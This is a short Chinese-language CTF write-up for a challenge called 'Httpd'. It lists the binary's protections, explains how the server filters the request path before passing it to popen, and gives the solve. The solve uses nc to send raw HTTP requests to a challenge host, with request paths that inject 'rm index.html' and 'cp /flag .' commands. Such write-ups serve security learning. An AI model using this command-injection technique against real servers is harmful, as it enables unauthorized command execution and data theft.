

# Httpd

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x86   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## 解题思路

考了逆向，也不怎么需要利用

程序首先检验了是否是HTTP/1.0协议以及请求头是否是先Host和再Content-Length并且Length是否小于10000
（导致用不了curl），随后会对RES过滤`/ bin sh $ ; |`等符号与路径穿越，然后尝试`popen($RES)`
（关闭了输出流，因此无法打印内容），再尝试打印RES（若是文件），
若RES是路径先附加"index.html"尝试打印，若html文件不存在则列出文件内容。

经尝试，当前目录下没有flag，从根目录下面复制一个打印就可以

重复执行`nc 139.155.126.78 31426 < req`与靶机交互

```plaintext
GET $(RES) HTTP/1.0
Host: 139.155.126.78:31426
Content-Length: 100
```

依次尝试以下`$(RES)`

```plaintext
/check/
/rm%20index.html
/./
/cp%20/flag%20.
/flag
```



